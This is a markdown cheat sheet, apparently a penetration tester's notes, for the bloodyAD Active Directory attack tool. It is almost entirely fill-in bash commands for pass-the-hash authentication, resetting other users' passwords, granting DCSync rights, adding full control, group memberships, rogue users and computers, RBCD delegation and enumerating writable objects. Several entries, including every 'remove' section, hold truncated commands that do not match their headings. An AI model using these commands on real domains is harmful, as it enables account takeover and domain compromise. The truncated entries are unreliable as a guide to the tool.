 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## cross-domain actions
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p
```

## set - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set cross-domain - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <target_dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set object <target_dn> <attribute> -v <value>
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - add computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add computer  <computer_name|jubeaz> <computer_password|Zaebuj12345+->
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
sAMAccountName, DN, GUID or SID of the trustee
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  dcsync <trustee>
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add dnsRecord   
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add genericAll <target> <trustee>
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  groupMember <group_sam> <target_sam>
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  rbcd <target>  <source>
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add user <sAMAccountName|jubeaz> <password|Zaebuj12345+-> 
```

## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS dump records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get dnsDump --zone <domain>  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get membership <target_sAMAccountName>
```
## get - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get object --resolve-sd <target_sAMAccountName>
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get search --filter '<ldap_filter|(objectClass=*)>' --attr <comma_sep_attr_list|'*'> --resolve-sd  <search_base|DC=domain,DC=tld>
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get writable
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

